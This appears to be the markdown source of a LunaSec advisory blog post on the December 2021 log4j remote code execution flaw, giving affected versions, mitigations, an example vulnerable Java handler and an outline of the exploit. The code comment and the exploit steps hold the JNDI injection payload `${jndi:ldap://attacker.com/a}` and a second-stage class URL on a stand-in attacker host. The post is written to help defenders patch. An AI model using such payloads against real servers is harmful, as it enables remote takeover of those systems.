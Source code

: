 ```yaml
---
title: RCE 0-day exploit found in log4j, a popular Java logging package
description: A non-security person's take on using CSPs in the real world.
slug: log4j-zero-day
authors:
- name: Free Wortley 
  title: CEO at LunaSec 
  url: https://github.com/freeqaz
  image_url: https://github.com/freeqaz.png
  tags: [zer-day, data-security, data-breaches]

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

A few hours ago, a 0-day exploit in the
popular Java logging library, `log4j`, was [tweeted](https://twitter.com/P0rZ9/status/1468949890571337731) along with a POC posted on
[GitHub](https://github.com/tangxiaofeng7/apache-log4j-poc) that results in Remote Code Execution (RCE) if
`log4j` logs an attacker-controlled string value.

Given how ubiquitous this library is, the impact of the exploit (full server control), and how easy it is to exploit,
the impact of this vulnerability is quite severe. Since this vulnerability is still very new, there isn't a CVE to track
it yet.

This post provides resources to help you understand the vulnerability and how to mitigate it for yourself.

<!--truncate-->

## Who is impacted?
Cloud services like [Steam, Apple iCloud](https://news.ycombinator.com/item?id=29499867), and apps like
Minecraft have been found to be vulnerable to this exploit. Many, many others likely are, also.

Anybody using Apache Struts is likely vulnerable. We've seen similar vulnerabilities exploited before in breaches like 
the [2017 Equifax data breach](https://en.wikipedia.org/wiki/2017_Equifax_data_breach#Data_breach).

Many Open Source projects
like the Minecraft server, [Paper](https://github.com/PaperMC/Paper/commit/b475c6a683fa34156b964f751985f36a784ca0e0),
have already begun patching their usage of `log4j`.

## Affected Apache log4j Versions

`2.0 <= Apache log4j <= 2.14.1`

At the time this post was created (December 9th, 2021) a patch is available in `log4j-2.15.0-rc1`
[here](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1).

## Temporary Mitigation

Start your server with `log4j2.formatMsgNoLookups` set to `true`, or update to `log4j-2.15.0-rc1` or later. 
(Kudos to @80vul for [tweeting](https://twitter.com/80vul/status/1468968891489857537))

## How the exploit works

### Exploit Requirements 
- A server running with a vulnerable `log4j` version (listed above),
- A remotely accessible endpoint with any protocol (HTTP, TCP, etc) that allows an attacker to send arbitrary data,
- A log statement in the endpoint that logs the attacker controlled data.

### Example Vulnerable Code

```java
import org.apache.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = Logger.getLogger(log4jExample.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * This is basically pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    string userAgent = he.getRequestHeader("user-agent");
    
    // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
    // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
    log.info("Request User Agent:" + userAgent);

    String response = "<h1>Hello There, " + userAgent + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

### Exploit Steps
1. Data from the User gets sent to the server (via any protocol),
2. The server logs the data in the request, containing the malicious payload: `${jndi:ldap://attacker.com/a}` (where `attacker.com` is an attacker controlled server),
3. The `log4j` vulnerability is triggered by this payload and the server makes a request to `attacker.com` via "[Java Naming and Directory Interface](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)" (JNDI),
4. This response contains a path to a remote Java class file (ex. `http://second-stage.attacker.com/Exploit.class`) which is injected into the server process,
5. This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

Due to how common Java vulnerabilities such as these are, security researchers have created tools to easily exploit 
them. The [marshalsec](https://github.com/mbechler/marshalsec) project is one of many that demonstrates generating an
exploit payload that could be used for this vulnerability. You can refer to [this malicious LDAP server](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java) for an example of exploitation. 

## More information

We'll continue to update this post as information about the impact of this exploit becomes available.

For now, we're just publishing this to help raise awareness and get people patching it. Please tell any of your friends 
running Java software!
